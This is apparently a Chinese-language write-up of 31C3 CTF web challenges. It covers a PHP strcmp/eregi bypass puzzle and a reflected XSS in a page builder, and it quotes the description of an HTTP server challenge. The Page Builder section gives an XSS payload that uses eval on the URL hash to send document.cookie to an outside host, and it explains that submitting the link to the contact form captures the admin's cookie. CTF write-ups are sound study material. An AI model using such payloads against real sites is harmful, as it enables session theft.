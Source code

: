 这里用到的技巧是，array和string进行strcmp比较的时候会返回一个null，%00可以截断eregi

```
$c=@$_GET['c'];
$d=@$_GET['d'];
if(@$c[1]){
    if(!strcmp($c[1],$d) && $c[1]!==$d){
        eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
        strpos(($c[0].$d), "31c3")?$v4=1:NULL;
    }
}
if($v1 && $v2 && $v3 && $v4){
    include "flag.php";
    echo $flag;
} 

```

0x02 Page Builder
=================

* * *

> These guys have ripped off our designs and using them in their web pages builder! We’d Haxx them, don’t worry we’ll give you decent points for it

这一题分为两步，第一步构造一个报错页面。报错页面中会显示的filename没有escape。

如下构造参数

```
filename=%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E.php&title=aaa&style=style1&content=aaa 

```

会形成一个反射性的XSS

```
http://188.40.18.76/output/e53a4123da9c71138c0daa360b0d89ab05ced8b8/<img src=x onerror=alert(1)>.php

```

我们可以构造一个偷cookie的连接

```
http://188.40.18.76/output/e53a4123da9c71138c0daa360b0d89ab05ced8b8/<svg onload=eval(document.location.hash.slice(1))>.php#document.location='http://lanantest.sinaapp.com/?'+document.cookie

```

第二步把这个XSS提交到，Contact Us，就可以偷到cookie了，可以看到Flag

0x03 HTTP
=========

* * *

> Check out our cool webserver. It is really fast because it is implemented in C. For security we use the versatility of Ruby.
> 
> Get the source at:
> 
> http.tar.bz2 Some example sites hosted with our webserver:
> 
> http://works.90.31c3ctf.aachen.ccc.de/works.html
> 
> http://31c3ctf.90.31c3ctf.aachen.ccc.de/announcements.html
